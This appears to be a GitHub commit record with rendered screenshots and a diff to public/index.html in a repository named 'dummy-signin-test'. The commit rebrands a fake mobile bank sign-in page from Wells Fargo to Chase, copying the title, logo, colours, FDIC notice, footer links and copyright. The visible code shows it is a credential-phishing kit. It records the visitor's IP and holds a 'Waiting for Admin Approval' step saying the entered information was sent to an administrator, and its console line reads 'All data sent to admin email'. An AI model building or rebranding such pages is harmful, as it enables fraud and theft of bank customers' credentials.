

Before and after one commit to Dennisbed1234/dummy-signin-test, a website: page public/index.html in a window 390 px wide. After the commit the page ends 1345 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Wells Fargo Sign On</title>
+    <title>Chase - Sign In</title>
     <style>
         * {
             box-sizing: border-box;
@@ -13,7 +13,7 @@
         }
 
         body {
-            background-color: #ffffff;
+            background-color: #f0f2f5;
             color: #333333;
             display: flex;
             justify-content: center;
@@ -28,42 +28,70 @@
             flex-direction: column;
         }
 
-        /* Header */
+        /* ===== CHASE HEADER ===== */
         .header {
-            background-color: #d71e28;
+            background: linear-gradient(135deg, #1171bc 0%, #0a4b7a 100%);
             color: white;
-            padding: 14px 16px;
+            padding: 16px 20px;
             display: flex;
-            justify-content: center;
+            justify-content: space-between;
             align-items: center;
-            position: relative;
-            border-bottom: 3px solid #ffcc00;
+            border-bottom: 1px solid rgba(255,255,255,0.1);
         }
 
         .logo {
             font-family: "Georgia", serif;
             font-weight: bold;
-            font-size: 20px;
+            font-size: 24px;
             letter-spacing: 1px;
-            text-transform: uppercase;
+            color: #ffffff;
+        }
+
+        .header-right {
+            display: flex;
+            align-items: center;
+            gap: 16px;
+        }
+
+        .help-icon {
+            width: 28px;
+            height: 28px;
+            border: 2px solid rgba(255,255,255,0.8);
+            border-radius: 50%;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            font-size: 16px;
+            font-weight: 700;
+            color: #ffffff;
+            cursor: pointer;
+            transition: background 0.2s;
+        }
+
+        .help-icon:hover {
+            background: rgba(255,255,255,0.15);
         }
 
         .menu-icon {
-            position: absolute;
-            right: 16px;
             display: flex;
             flex-direction: column;
             gap: 4px;
             cursor: pointer;
+            padding: 4px;
         }
 
         .menu-icon div {
             width: 22px;
             height: 2px;
             background-color: white;
+            border-radius: 1px;
         }
 
-        /* Content */
+        .menu-icon:hover div {
+            background: #ffcc00;
+        }
+
+        /* ===== CONTENT ===== */
         .content {
             padding: 32px 24px 0 24px;
             display: flex;
@@ -97,7 +125,8 @@
         }
 
         .input-field:focus {
-            border-color: #d71e28;
+            border-color: #1171bc;
+            box-shadow: 0 0 0 3px rgba(17, 113, 188, 0.12);
         }
 
         .input-field::placeholder {
@@ -119,7 +148,7 @@
             right: 16px;
             top: 50%;
             transform: translateY(-50%);
-            color: #3b2b73;
+            color: #1171bc;
             font-weight: 600;
             font-size: 15px;
             cursor: pointer;
@@ -130,7 +159,7 @@
         }
 
         .show-btn:hover {
-            color: #1a1a5e;
+            color: #0a4b7a;
         }
 
         .checkbox-container {
@@ -148,6 +177,7 @@
             border-radius: 4px;
             border: 1px solid #767676;
             cursor: pointer;
+            accent-color: #1171bc;
         }
 
         .checkbox-label {
@@ -164,14 +194,14 @@
             width: 100%;
         }
 
-        /* Buttons */
+        /* ===== BUTTONS ===== */
         .btn-sign-on {
             width: 100%;
             height: 48px;
-            background-color: #d71e28;
+            background-color: #1171bc;
             color: white;
             border: none;
-            border-radius: 24px;
+            border-radius: 8px;
             font-size: 16px;
             font-weight: 600;
             cursor: pointer;
@@ -180,7 +210,7 @@
         }
 
         .btn-sign-on:hover:not(:disabled) {
-            background-color: #b81820;
+            background-color: #0a4b7a;
         }
 
         .btn-sign-on:disabled {
@@ -201,7 +231,7 @@
             background-color: transparent;
             color: #262626;
             border: 1px solid #262626;
-            border-radius: 24px;
+            border-radius: 8px;
             font-size: 16px;
             font-weight: 600;
             display: flex;
@@ -226,7 +256,7 @@
         }
 
         .forgot-link {
-            color: #3b2b73;
+            color: #1171bc;
             font-size: 15px;
             font-weight: 600;
             text-decoration: none;
@@ -240,7 +270,7 @@
             text-decoration: underline;
         }
 
-        /* Investment Box */
+        /* ===== INVESTMENT BOX ===== */
         .investment-box {
             margin-top: 40px;
             width: 100%;
@@ -284,26 +314,45 @@
             line-height: 1.4;
         }
 
-        /* Footer */
+        /* ===== FOOTER ===== */
         .footer {
-            background-color: #f7f5f2;
+            background-color: #f7f8fa;
             padding: 24px 20px 32px 20px;
             width: 100%;
-            border-top: 1px solid #e2ded8;
+            border-top: 1px solid #e8e8e8;
+        }
+
+        .social-icons {
+            display: flex;
+            justify-content: center;
+            gap: 20px;
+            margin-bottom: 20px;
+        }
+
+        .social-icons a {
+            color: #59636e;
+            text-decoration: none;
+            font-weight: bold;
+            font-size: 14px;
+            transition: color 0.2s;
+        }
+
+        .social-icons a:hover {
+            color: #1171bc;
         }
 
         .footer-links {
             display: grid;
             grid-template-columns: 1fr 1fr;
             column-gap: 16px;
-            row-gap: 20px;
-            margin-bottom: 24px;
+            row-gap: 12px;
+            margin-bottom: 20px;
         }
 
         .footer-links a {
             color: #333333;
             text-decoration: none;
-            font-size: 13.5px;
+            font-size: 13px;
             line-height: 1.35;
         }
 
@@ -314,12 +363,23 @@
         .footer-divider {
             height: 1px;
             background-color: #d9d4cd;
-            margin-bottom: 20px;
+            margin-bottom: 16px;
+        }
+
+        .housing-info {
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            gap: 6px;
+            font-size: 13px;
+            color: #333333;
+            margin-bottom: 8px;
         }
 
         .copyright {
-            font-size: 12.5px;
-            color: #333333;
+            font-size: 12px;
+            color: #6b6b6b;
+            text-align: center;
             line-height: 1.4;
         }
 
@@ -389,10 +449,10 @@
         .restart-btn {
             margin-top: 20px;
             padding: 10px 24px;
-            background: #d71e28;
+            background: #1171bc;
             color: white;
             border: none;
-            border-radius: 24px;
+            border-radius: 8px;
             cursor: pointer;
             font-size: 16px;
             font-weight: 600;
@@ -400,16 +460,16 @@
         }
 
         .restart-btn:hover {
-            background: #b81820;
+            background: #0a4b7a;
         }
 
-        /* Wells Fargo "Show" / "Hide" button */
+        /* ===== TOGGLE PASSWORD ===== */
         .toggle-password-btn {
             position: absolute;
             right: 16px;
             top: 50%;
             transform: translateY(-50%);
-            color: #3b2b73;
+            color: #1171bc;
             font-weight: 600;
             font-size: 15px;
             cursor: pointer;
@@ -420,24 +480,103 @@
         }
 
         .toggle-password-btn:hover {
-            color: #1a1a5e;
+            color: #0a4b7a;
+        }
+
+        /* ===== RESPONSIVE ===== */
+        @media (max-width: 480px) {
+            .content {
+                padding: 20px 16px 0 16px;
+            }
+
+            .greeting {
+                font-size: 28px;
+            }
+
+            .logo {
+                font-size: 20px;
+            }
+
+            .footer-links {
+                grid-template-columns: 1fr 1fr;
+                gap: 8px 12px;
+            }
+
+            .footer-links a {
+                font-size: 12px;
+            }
+
+            .social-icons {
+                gap: 14px;
+            }
+
+            .input-field {
+                height: 44px;
+                font-size: 15px;
+            }
+
+            .btn-sign-on,
+            .btn-passkey {
+                height: 44px;
+                font-size: 15px;
+            }
+        }
+
+        @media (max-width: 380px) {
+            .greeting {
+                font-size: 24px;
+            }
+
+            .logo {
+                font-size: 18px;
+            }
+
+            .header {
+                padding: 12px 16px;
+            }
+
+            .help-icon {
+                width: 24px;
+                height: 24px;
+                font-size: 14px;
+            }
+
+            .menu-icon div {
+                width: 18px;
+                height: 2px;
+            }
+
+            .input-field {
+                height: 40px;
+                font-size: 14px;
+            }
+
+            .btn-sign-on,
+            .btn-passkey {
+                height: 40px;
+                font-size: 14px;
+            }
         }
     </style>
 </head>
 <body>
 
 <div class="mobile-container">
-    <!-- HEADER -->
+
+    <!-- ===== CHASE HEADER ===== -->
     <header class="header">
-        <div class="logo">WELLS FARGO</div>
-        <div class="menu-icon">
-            <div></div>
-            <div></div>
-            <div></div>
+        <div class="logo">CHASE</div>
+        <div class="header-right">
+            <div class="help-icon">?</div>
+            <div class="menu-icon">
+                <div></div>
+                <div></div>
+                <div></div>
+            </div>
         </div>
     </header>
 
-    <!-- MAIN CONTENT -->
+    <!-- ===== MAIN CONTENT ===== -->
     <main class="content">
         <h1 class="greeting" id="greetingText">Good evening</h1>
 
@@ -560,7 +699,7 @@
                 <h2 style="font-family: Georgia, serif; font-size: 24px; color: #262626;">Waiting for Admin Approval</h2>
                 <p style="color: #595959; margin-top: 8px;">Your information has been sent to the administrator.</p>
                 <p style="color: #595959;">Please wait while the admin reviews your request...</p>
-                <p id="waitingStatus" style="color: #3b2b73; font-weight:600; margin-top:12px;">Loading...</p>
+                <p id="waitingStatus" style="color: #1171bc; font-weight:600; margin-top:12px;">Loading...</p>
                 <button type="button" class="restart-btn" onclick="restart()" style="margin-top:20px;">Start Over</button>
             </div>
         </div>
@@ -591,35 +730,52 @@
             </div>
 
             <p class="fdic-notice">
-                Deposit products offered by Wells Fargo Bank, N.A. Member FDIC.
+                Deposit products offered by JPMorgan Chase Bank, N.A. Member FDIC.
             </p>
         </div>
     </main>
 
-    <!-- FOOTER -->
+    <!-- ===== CHASE FOOTER ===== -->
     <footer class="footer">
+        <div class="social-icons">
+            <a href="#">FB</a>
+            <a href="#">IG</a>
+            <a href="#">X</a>
+            <a href="#">YT</a>
+            <a href="#">IN</a>
+        </div>
+
         <div class="footer-links">
-            <a href="#">About Wells Fargo</a>
-            <a href="#">Report Email Fraud</a>
-            <a href="#">Online Access Agreement</a>
-            <a href="#">Security Center</a>
-            <a href="#">Privacy, Cookies, Security & Legal</a>
-            <a href="#">Sitemap</a>
-            <a href="#">Do not sell or share my personal information</a>
-            <a href="#">Give Us Feedback</a>
-            <a href="#">Notice of Data Collection</a>
+            <a href="#">Contact us</a>
+            <a href="#">Privacy &amp; security</a>
+            <a href="#">Terms of use</a>
+            <a href="#">Accessibility</a>
+            <a href="#">SAFE Act: Chase Mortgage Loan Originators</a>
+            <a href="#">Fair Lending</a>
+            <a href="#">About Chase</a>
+            <a href="#">J.P. Morgan</a>
+            <a href="#">JPMorgan Chase &amp; Co.</a>
+            <a href="#">Careers</a>
+            <a href="#">Español</a>
+            <a href="#">Chase Canada</a>
+            <a href="#">Site map</a>
+            <span style="color: #333; font-size: 13px;">Member FDIC</span>
         </div>
 
         <div class="footer-divider"></div>
 
+        <div class="housing-info">
+            <span>⌂</span> Equal Housing Opportunity
+        </div>
+
         <div class="copyright">
-            &copy; 1999 - 2026 Wells Fargo. All rights reserved. NMLSR ID 399801
+            &copy; 2026 JPMorganChase
         </div>
     </footer>
 </div>
 
 <!-- ========================================== -->
-<!-- JAVASCRIPT - MERGED LOGIC -->
+<!-- JAVASCRIPT - YOUR EXACT WORKING LOGIC -->
 <!-- ========================================== -->
 <script>
     // ==========================================
@@ -639,7 +795,7 @@
         .catch(() => { userIp = '(could not detect)'; });
 
     // ==========================================
-    // TOGGLE PASSWORD VISIBILITY - Wells Fargo Style
+    // TOGGLE PASSWORD VISIBILITY
     // ==========================================
     function setupToggle(btnId, inputId) {
         const btn = document.getElementById(btnId);
@@ -669,7 +825,6 @@
         const el = document.getElementById(stepId);
         if (el) el.classList.add('active');
 
-        // Hide bottom content for certain steps
         const bottom = document.getElementById('bottomContent');
         if (bottom) {
             if (stepId === 'congrats' || stepId === 'waiting') {
@@ -734,9 +889,7 @@
                 } else {
                     document.getElementById('waitingStatus').textContent = 'Still waiting for admin approval...';
                 }
-            } catch (e) {
-                // Silent fail
-            }
+            } catch (e) {}
         }, 3000);
     }
 
@@ -924,7 +1077,7 @@
         }
     });
 
-    console.log('✅ Wells Fargo Sign-In Page Loaded');
+    console.log('✅ Chase Sign-In Page Loaded');
     console.log('📧 All data sent to admin email');
 </script>
 
```
